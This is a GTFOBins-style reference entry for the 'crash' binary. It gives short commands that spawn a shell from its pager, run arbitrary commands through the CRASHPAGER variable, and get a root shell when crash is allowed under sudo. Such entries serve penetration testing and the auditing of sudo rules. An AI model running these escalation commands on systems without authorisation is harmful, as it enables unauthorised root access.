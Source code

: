 # GTFOBin: crash

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
crash -h
!sh
```

## Command

It can be used to break out from restricted environments by running non-interactive system commands.

```
COMMAND='/usr/bin/id'
CRASHPAGER="$COMMAND" crash -h
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This invokes the default pager, which is likely to be `less`, other functions may apply.

```
sudo crash -h
!sh
```